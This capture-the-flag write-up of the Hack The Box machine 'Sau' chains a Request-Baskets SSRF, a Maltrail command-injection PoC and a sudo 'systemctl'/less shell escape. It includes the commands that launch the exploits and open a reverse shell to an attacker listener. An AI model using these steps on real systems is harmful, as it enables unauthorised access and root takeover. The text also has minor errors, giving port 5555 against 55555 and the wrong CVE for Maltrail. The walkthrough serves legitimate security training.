






<span style="color:#d9534f;"><strong>Path To Root</strong></span>: SSRF → internal panel access → unauthenticated command injection → user shell → sudo misconfiguration → root.

---

## <span style="color:#4b0082;"><strong>Synopsis</strong></span>
Sau is an easy-level HTB box that runs a Request-Baskets instance vulnerable to SSRF (CVE-2023-27163). It gave me a solid, hands-on understanding of Server-Side Request Forgery (SSRF). By abusing that flaw I was able to a filtere Maltrail panel that is vulnerable to unauthenticated OS-command injection. One payload later, I landed a reverse shell as the user `puma`. From there a sloppy `sudo` configuration handed me root.

### Skills Required
- Web Enumeration
- Linux Fundamentals

### Skills Learned
- Command Injection
- Server Side Request Forgery
- Sudo Exploitation

---

## <span style="color:#4b0082;"><strong>Enumeration</strong></span>

### 1. Nmap

```bash
nmap -sV 10.10.11.224
```



The nmap scan reveals that `OpenSSH` is running on the default `SSH` port (22). Port 80 appears to be filtered, likely due to a firewall rule restricting inbound `HTTP` traffic. Additionally, an HTTP service is accessible on port 5555, which indicates a non-standard web service might be running there.

### 2. Request‑Baskets SSRF to Maltrail
Since port `80` is filtered, I started exploring port `55555`, which revealed a `Request Baskets` instance running. `Request Baskets` is a web service that collects HTTP requests via a RESTful API.

I noticed the version was `1.2.1`, and after a quick Google search, I found that this version is vulnerable to `CVE-2023-27163`: a Server-Side Request Forgery (SSRF) via the `/api/baskets/{name}` component, which allows attackers to make internal requests to services that should be unreachable.  


I immediately thought of targeting the filtered HTTP port `80` by forcing the application to make a request to it. I searched for some PoC scripts and found one that sets up a proxy basket to relay requests to an internal service.

To exploit it, I used the following command to trigger a request to the internal web service running on port `80`:

```bash
bash ./exploit-basket.sh http://10.10.11.224:55555/ http://127.0.0.1:80
```


Following the exploit, I was able to access the crafted URL, which successfully forwarded the request to the internal port `80`. This revealed a `Maltrail` instance running on version `0.53`, which is vulnnerable to Unauthenticated Remote Code Execution (RCE) (CVE-2023–27163).


---

## <span style="color:#4b0082;"><strong>Foothold</strong></span>

I searched for a proof-of-concept exploit and found a script that constructs a `curl` command to send a payload to the target URL through the login endpoint, which opens a shell on the victim machine.

I set up a `netcat` listener on port `4444` on my machine (attacker machine), and ran the script with:

```bash
python3 exploit-maltrail.py 10.10.14.9 4444 http://10.10.11.224:55555/qmhvxq
```

I obtained a shell on the target and was able to get the `user` flag.



---

## <span style="color:#4b0082;"><strong>Privilege Escalation</strong></span>

The first thing I checked for privilege escalation was `sudo` permissions for the user `puma`. I discovered that this user can run `/usr/bin/systemctl status trail.service` with `sudo` and no password.  


I knew that `systemctl status` pipes output through `less` by default when the output is long. Since we're running the command with `sudo`, it opens `less` as root, which can be exploited. 

One trick with `less` is that you can escape to a shell by typing `!`. So I entered `!` and got a root shell.  

---

## <span style="color:#4b0082;"><strong>Exploitation Scripts</strong></span>

| Script                       | Author            | Source                                                                                            |
| ---------------------------- | ----------------- | ------------------------------------------------------------------------------------------------- |
| `exploit-basket.sh`          | Iyaad Luqman K    | [Request-Baskets 1.2.1](https://vulners.com/packetstorm/PACKETSTORM:174128)                       |
| `exploit-maltrail.py`        | spookler (Github) | [Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py) |

---

## <span style="color:#4b0082;"><strong>References</strong></span>

- [CVE-2023-27163 – Request-Baskets SSRF](https://nvd.nist.gov/vuln/detail/CVE-2023-27163)
- [Maltrail 0.53 – Unauthenticated RCE (ExploitDB ID: 51676)](https://vulners.com/exploitdb/EDB-ID:51676)

